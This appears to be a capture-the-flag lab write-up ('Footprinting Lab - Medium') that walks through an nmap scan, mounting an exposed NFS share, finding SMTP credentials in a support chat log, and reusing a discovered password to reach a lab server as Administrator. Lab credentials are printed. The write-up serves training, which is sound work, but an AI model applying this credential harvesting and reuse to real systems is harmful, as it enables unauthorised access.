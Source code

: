 # Footprinting Lab - Medium

```
nmap 10.129.202.41
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-29 03:19 BST
Nmap scan report for 10.129.202.41
Host is up (0.025s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT     STATE SERVICE
111/tcp  open  rpcbind
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
2049/tcp open  nfs
3389/tcp open  ms-wbt-server

```

```
mkdir rfs
```

```
sudo mount -t nfs 10.129.202.41:/TechSupport ./rfs/ -o nolock
```

<figure><img src="../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

```
 Conversation with InlaneFreight Ltd

Started on November 10, 2021 at 01:27 PM London time GMT (GMT+0200)
---
01:27 PM | Operator: Hello,. 
 
So what brings you here today?
01:27 PM | alex: hello
01:27 PM | Operator: Hey alex!
01:27 PM | Operator: What do you need help with?
01:36 PM | alex: I run into an issue with the web config file on the system for the smtp server. do you mind to take a look at the config?
01:38 PM | Operator: Of course
01:42 PM | alex: here it is:

 1smtp {
 2    host=smtp.web.dev.inlanefreight.htb
 3    #port=25
 4    ssl=true
 5    user="alex"
 6    password="lol123!mD"
 7    from="alex.g@web.dev.inlanefreight.htb"
 8}
 9
10securesocial {
11    
12    onLoginGoTo=/
13    onLogoutGoTo=/login
14    ssl=false
15    
16    userpass {      
17    	withUserNameSupport=false
18    	sendWelcomeEmail=true
19    	enableGravatarSupport=true
20    	signupSkipLogin=true
21    	tokenDuration=60
22    	tokenDeleteInterval=5
23    	minimumPasswordLength=8
24    	enableTokenJob=true
25    	hasher=bcrypt
26	}
27
28     cookie {
29     #       name=id
30     #       path=/login
31     #       domain="10.129.2.59:9500"
32            httpOnly=true
33            makeTransient=false
34            absoluteTimeoutInMinutes=1440
35            idleTimeoutInMinutes=1440
36    }   



---

```

RDP to the Machine using Alex credentials

Go to : C:\Users\alex\devshare 87N1ns@slls83

```
sa:87N1ns@slls83
```

Use Remmina to Access the Server using the Administrator and password: 87N1ns@slls83

<figure><img src="../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>
